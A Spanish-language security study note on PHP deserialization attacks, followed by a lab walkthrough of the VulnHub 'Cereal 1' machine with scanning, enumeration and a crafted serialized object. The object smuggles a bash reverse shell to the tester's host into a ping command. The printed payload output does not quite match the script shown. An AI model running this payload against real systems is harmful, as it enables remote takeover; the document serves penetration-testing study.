



# Ataques de Deserialización

## ¿Qué son?

Los ataques de deserialización son una técnica que aprovecha vulnerabilidades en el proceso de **serialización** y **deserialización** de objetos, muy común en aplicaciones que utilizan **Programación Orientada a Objetos (POO)**.

- **Serialización**: Proceso de convertir un objeto (por ejemplo, una instancia de una clase) en una secuencia de bytes para almacenarlo o enviarlo por red.
- **Deserialización**: Proceso inverso: convertir esos bytes de nuevo en un objeto.

El problema surge cuando **deserializamos datos no confiables** que pueden haber sido manipulados por un atacante. Si no se valida adecuadamente lo que recibimos, se pueden ejecutar instrucciones maliciosas, incluso tomar el control del servidor.

---

## ¿Cómo se pueden explotar?

Existen varias formas en las que un atacante puede llevar a cabo un ataque de deserialización:

1. **Modificando un objeto serializado legítimo** para alterar su contenido antes de que sea deserializado.
2. **Enviando directamente un objeto malicioso serializado** con payloads que ejecuten comandos en el servidor.
3. **Interceptando (MITM)** la comunicación entre cliente y servidor para modificar objetos serializados en tránsito.

---

## Ejemplo práctico (laboratorio)

En un entorno de pruebas, trabajamos con una aplicación web en PHP que usa `unserialize()` para deserializar objetos provenientes de cookies.

Creamos una clase vulnerable llamada `Usuario`:

```php
<?php
class Usuario {
  public $nombre;
  public $rol;

  function __destruct() {
    if ($this->rol === "admin") {
      system("cat /root/flag.txt");
    }
  }
}
?>
````

Si serializamos este objeto en PHP:

```php
$usuario = new Usuario();
$usuario->nombre = "pepito";
$usuario->rol = "admin";
echo serialize($usuario);
```

Obtenemos una cadena como esta:

```
O:7:"Usuario":2:{s:6:"nombre";s:6:"pepito";s:3:"rol";s:5:"admin";}
```

Podemos enviar esta cadena como cookie o parámetro HTTP y, al ser deserializada sin validación, **ejecutar el comando `cat /root/flag.txt`**, accediendo a archivos internos.

---

## Ejemplo real

Un caso famoso ocurrió en **2015** con el **framework Apache Commons Collections** en aplicaciones Java. Muchas aplicaciones usaban bibliotecas que permitían deserializar objetos Java sin restricciones. Investigadores descubrieron que era posible construir objetos serializados que, al ser deserializados, ejecutaban comandos arbitrarios en el sistema.

Este fallo fue tan grave que incluso se explotó en ataques reales contra **Jenkins**, **WebLogic**, y otras aplicaciones empresariales.

---

## ¿Cómo nos protegemos?

Para prevenir este tipo de ataques, debemos seguir estas buenas prácticas:

- **Nunca deserializar datos que provienen del usuario** sin antes validarlos o restringir su tipo.
    
- Usar funciones seguras como `json_decode()` en vez de `unserialize()` en PHP.
    
- Configurar las bibliotecas para que **solo permitan deserializar tipos conocidos o permitidos**.
    
- Mantener nuestras bibliotecas y dependencias siempre actualizadas.
    
- Implementar un sistema de autenticación y firma de los objetos serializados.
    

---

## Práctica recomendada

Podéis probar estos ataques en la máquina vulnerable de Vulnhub:

[Máquina Cereal 1 (VulnHub)](https://www.vulnhub.com/entry/cereal-1,703/)

En este entorno reproducimos un **ataque de deserialización en PHP** de forma segura y didáctica. La máquina está diseñada para mostrar paso a paso cómo una mala implementación puede ser aprovechada por un atacante.

---

## Conclusión

Los ataques de deserialización son una amenaza real y peligrosa. Como aprendices y futuros profesionales de la ciberseguridad, debemos comprender tanto el **funcionamiento técnico** como las **técnicas de mitigación**, para diseñar sistemas más robustos y seguros.

---


Acción:

```bash
nmap -p- -sS -n -Pn --min-rate 5000 -vvv 192.168.1.61 -oG allPorts 
```

Resultado:

```bash
[*] Extracting information...

	[*] IP Address: 192.168.1.61
	[*] Open ports: 21,22,80,139,445,3306,11111,22222,22223,33333,33334,44441,44444,55551,55555
```

Acción:

```bash
gobuster dir -u http://192.168.1.61/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```

Resultado:

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 301) [Size: 233] [--> http://192.168.1.61/blog/]
/admin                (Status: 301) [Size: 234] [--> http://192.168.1.61/admin/]
Progress: 34216 / 220560 (15.51%)^C
```



Resolvemos en `/etc/hosts`

```lua
192.168.1.61 cereal.ctf
```


Acción:

```bash
❯ nc -nv 192.168.1.61 44441
```

Resultado:

```bash
(UNKNOWN) [192.168.1.61] 44441 (?) open

HTTP/1.1 400 Bad Request
Date: Tue, 27 May 2025 00:27:00 GMT
Server: Apache/2.4.37 ()
Content-Length: 226
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
</body></html>
```

Acción:

```bash
whatweb http://cereal.ctf:44441/
```

Resultado:

```bash
http://cereal.ctf:44441/ [200 OK] Apache[2.4.37], Country[RESERVED][ZZ], HTTPServer[Apache/2.4.37 ()], IP[192.168.1.61]
```

Explicación: como el escaneo de servicios con `nmap` nos daba puertos filtrados por un posible firewall, hacemos una enumeración manual con Netcat hasta dar con este puerto que ejecuta un servidor web

Acción:

```bash
gobuster vhost -u http://cereal.ctf:44441 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 --append-domain
```

Resultado:

```bash
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: secure.cereal.ctf:44441 Status: 200 [Size: 1538]
Progress: 114442 / 114443 (100.00%)
```

Explicación: un escaneo por Gobuster hacia el *puerto 80* no hubiera dado como resultado esta ruta `secure.cerecal.ctf`, en cambio por este otro servicio el *44441* sí




BurpSuite:

```html
POST / HTTP/1.1

Host: secure.cereal.ctf:44441

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://secure.cereal.ctf:44441/

Content-Type: application/x-www-form-urlencoded

Content-Length: 104

Origin: http://secure.cereal.ctf:44441

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Upgrade-Insecure-Requests: 1

Priority: u=0, i


obj=O%3A8%3A%22pingTest%22%3A1%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A9%3A%22127.0.0.1%22%3B%7D&ip=127.0.0.1
```

Acción: si en el panel de arriba introducimos nuestra ip y le damos a ping mientras en nuestra terminal escuchamos por `tcpdump`

```bash
tcpdump -i ens33 icmp -n
```

Resultado:

```bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens33, link-type EN10MB (Ethernet), snapshot length 262144 bytes
02:43:09.089243 IP 192.168.1.61 > 192.168.1.66: ICMP echo request, id 2460, seq 1, length 64
02:43:09.089324 IP 192.168.1.66 > 192.168.1.61: ICMP echo reply, id 2460, seq 1, length 64
02:43:10.102805 IP 192.168.1.61 > 192.168.1.66: ICMP echo request, id 2460, seq 2, length 64
02:43:10.102848 IP 192.168.1.66 > 192.168.1.61: ICMP echo reply, id 2460, seq 2, length 64
02:43:11.126702 IP 192.168.1.61 > 192.168.1.66: ICMP echo request, id 2460, seq 3, length 64
02:43:11.126730 IP 192.168.1.66 > 192.168.1.61: ICMP echo reply, id 2460, seq 3, length 64
```


Explicación: recibimos una petición de la ip objetivo


Acción:

```bash
gobuster dir -u http://secure.cereal.ctf:44441/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 50
```

Resultado:

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/style                (Status: 200) [Size: 3118]
/php                  (Status: 200) [Size: 3699]
/index                (Status: 200) [Size: 1539]
/back_en              (Status: 301) [Size: 247] [--> http://secure.cereal.ctf:44441/back_en/]
```

Acción:

```bash
gobuster dir -u http://secure.cereal.ctf:44441/back_en/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php.bak
```

Resultado:

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php.bak        (Status: 200) [Size: 1814]
```




Acción: ctrl+u

```bash
<?php

class pingTest {
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";

	function validate() {
		if (!$this->isValid) {
			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
			{
				$this->isValid = True;
			}
		}
		$this->ping();

	}

	public function ping()
        {
		if ($this->isValid) {
			$this->output = shell_exec("ping -c 3 $this->ipAddress");	
		}
        }

}

if (isset($_POST['obj'])) {
	$pingTest = unserialize(urldecode($_POST['obj']));
} else {
	$pingTest = new pingTest;
}

$pingTest->validate();

echo "<html>
<head>
<script src=\"http://secure.cereal.ctf:44441/php.js\"></script>
<script>
function submit_form() {
		var object = serialize({ipAddress: document.forms[\"ipform\"].ip.value});
		object = object.substr(object.indexOf(\"{\"),object.length);
		object = \"O:8:\\\"pingTest\\\":1:\" + object;
		document.forms[\"ipform\"].obj.value = object;
		document.getElementById('ipform').submit();
}
</script>
<link rel='stylesheet' href='http://secure.cereal.ctf:44441/style.css' media='all' />
<title>Ping Test</title>
</head>
<body>
<div class=\"form-body\">
<div class=\"row\">
    <div class=\"form-holder\">
	<div class=\"form-content\">
	    <div class=\"form-items\">
		<h3>Ping Test</h3>
		
		<form method=\"POST\" action=\"/\" id=\"ipform\" onsubmit=\"submit_form();\" class=\"requires-validation\" novalidate>

		    <div class=\"col-md-12\">
			<input name=\"obj\" type=\"hidden\" value=\"\">
		       <input class=\"form-control\" type=\"text\" name=\"ip\" placeholder=\"IP Address\" required>
		    </div>
		<br />
		    <div class=\"form-button mt-3\">
			<input type=\"submit\" value=\"Ping!\">
			<br /><br /><textarea>$pingTest->output</textarea>
		    </div>
		</form>
	    </div>
	</div>
    </div>
</div>
</div>
</body>
</html>";

?>
```

Acción: 

```bash
nvim serialize.php
```

Resultado:

```lua
<?php

class pingTest {
	public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.1.66/443 0>&1'";
	public $isValid = True;
  public $output = "";
}

echo urlencode(serialize(new pingTest));
```

Acción:

```bash
php serialize.php 2>/dev/null; echo
```

Resultado:

```bash
O%3A8%3A%22pingTest%22%3A3%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A53%3A%22%3B+bash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.1.66%2F443+0%3E%261%27%22%3Bs%3A7%3A%22isValid%22%3Bb%3A0%3Bs%3A6%3A%22output%22%3Bs%3A0%3A%22%22%3B%7D
```

Explicaicón: ahora podemos pegar para enviar por BurpSuite este objeto que tiene como *True* los campos necesarios para saltar la sanitización que vimos en el código. Al escuchar con `netcat` obtendremos una reverse shell
